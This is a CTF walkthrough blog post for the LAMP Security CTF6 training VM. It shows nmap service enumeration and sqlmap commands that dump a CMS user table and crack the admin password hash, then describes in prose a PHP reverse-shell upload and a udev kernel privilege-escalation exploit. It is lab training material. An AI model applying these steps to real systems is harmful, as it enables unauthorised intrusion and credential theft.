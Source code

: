 ```yaml
---
layout: blog_item
title:  "LAMP Security CTF6 - Walkthrough"
date:   2014-03-04 19:40:60
author: Arr0way
description: 'LAMP Security CTF 6 - Walkthrough Guide'
categories: [walkthroughs]
tags:
- CTF
---
```



<div class="coffee-rating">
<table>
      <tbody>
        <tr>
           <td>
               <p><code>Coffee Difficulty Rating:</code></p>
           </td>
           <td>
               <p><i class="fa fa-coffee"></i></p>
           </td>
        </tr>
      </tbody>
</table>
</div>

* list element with functor item
{:toc}

## Author Description

The LAMPSecurity project is an effort to produce training and benchmarking
tools that can be used to educate information security professionals and test
products.

**Author:** madirish2600

**Download:** [VulnHub](https://www.vulnhub.com)

<div class="note info">
  <h5>Dislcaimer: Multiple Entry Points</h5>
  <p>The LAMPSecurity series is not particularly challenging, for each VM in the series I've targeted the <b>web application</b> as the entry point.</p>
</div>

## Enumeration

### Host Service Enumeration

{% highlight bash %}

nmap -v -p 1-65535 -sV -O -sT 192.168.30.131

{% endhighlight %}

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Port</th>
      <th>Service</th>
      <th>Version Detection</th>
    </tr>
  </thead>
      <tbody>
        <tr>
           <td>
               <pc><p><code>TCP: 22</code></p></pc>
           </td>
           <td>
               <pc><p>SSH</p></pc>
           </td>
           <td>
               <pc><p>OpenSSH 4.3 (protocol 2.0)</p></pc>
           </td>
        </tr>
        <tr>
           <td>
               <pc><p><code>TCP: 80</code></p></pc>
           </td>
           <td>
              <pc><p>HTTP</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd 2.2.3 ((CentOS))</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 110</code></p></pc>
           </td>
           <td>
              <pc><p>pop3</p></pc>
           </td>
           <td>
               <pc><p>Dovecot pop3d</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 111</code></p></pc>
           </td>
           <td>
              <pc><p>rpcbind</p></pc>
           </td>
           <td>
               <pc><p>N/A</p></pc>
           </td>
        </tr>
        <tr>
          <td>
               <pc><p><code>TCP: 143</code></p></pc>
           </td>
           <td>
              <pc><p>IMAP</p></pc>
           </td>
           <td>
               <pc><p>Dovecot imapd</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 443</code></p></pc>
           </td>
           <td>
              <pc><p>HTTPS</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd 2.2.3 ((CentOS))</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 621</code></p></pc>
           </td>
           <td>
              <pc><p>RPC</p></pc>
           </td>
           <td>
               <pc><p>N/A</p></pc>
           </td>
        </tr>
        <tr>
           <td>
               <pc><p><code>TCP: 993</code></p></pc>
           </td>
           <td>
              <pc><p>IMAP SSL</p></pc>
           </td>
           <td>
               <pc><p>Dovecot imapd</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP: 995</code></p></pc>
           </td>
           <td>
              <pc><p>POP3 SSL</p></pc>
           </td>
           <td>
               <pc><p>Dovecot pop3d</p></pc>
           </td>
        </tr>

        <tr>
           <td>
               <pc><p><code>TCP:3306 </code></p></pc>
           </td>
           <td>
              <pc><p>MySQL</p></pc>
           </td>
           <td>
               <pc><p>MySQL 5.0.45</p></pc>
           </td>
        </tr>

      </tbody>

</table>
</div>

## Web Application Enumeration

Inspection of the Web Application indicated it was vulnerable to SQL injection.



## SQLMap - SQL Injection

SQLMap confirmed SQL injection was possible.

{% highlight bash %}
[ root:~]# sqlmap -o -u "http://192.168.221.131/?action=login" --forms --dbs

available databases [5]:
[*] cms
[*] information_schema
[*] mysql
[*] roundcube
[*] test
{% endhighlight %}

SQLMap form enumeration:

{% highlight bash %}
[root:~]# sqlmap -o -u "http://192.168.221.131/?action=login" --forms  -D cms
--tables

Database: cms
[3 tables]
+-------+
| user  |
| event |
| log   |
+-------+
{% endhighlight %}

SQLMap database dump + admin account hash cracked:

{% highlight bash %}
[root:~]# sqlmap -o -u "http://192.168.221.131/?action=login" --forms  -D cms
-T user --dump

Database: cms
Table: user
[1 entry]
+---------+---------------+----------------------------------------------+
| user_id | user_username | user_password                                |
+---------+---------------+----------------------------------------------+
| 1       | admin         | 25e4ee4e9229397b6b17776bfceaf8e7 (adminpass) |
+---------+---------------+----------------------------------------------+
{% endhighlight %}

## Web Application Exploitation

Using the previously discovered admin account credentials, it was possible to login to the web application and upload a php reverse shell using an image upload form.

![PHP Web Shell Upload](/img/blog/ctf6/webshell.png)

## Local Privilege Escalation

A successful reverse shell was establish and the kernel appeared to be
vulnerable to a well know [Linux 2.6 kernel udev
exploit](https://www.exploit-db.com/exploits/8478/).

{% highlight bash %}
sh-3.2$ uname -ar
Linux localhost.localdomain 2.6.18-92.el5 #1 SMP Tue Jun 10 18:49:47 EDT 2008
i686 i686 i386 GNU/Linux
{% endhighlight %}

The exploit requires the PID for the udev process, the exploit does not work
flawlessly as you can see below it may take several attempts to get a root
shell.

![Exploit Process UDEV PID](/img/blog/ctf6/exploit-process-udev-pid.png)

Thanks for the VM :)
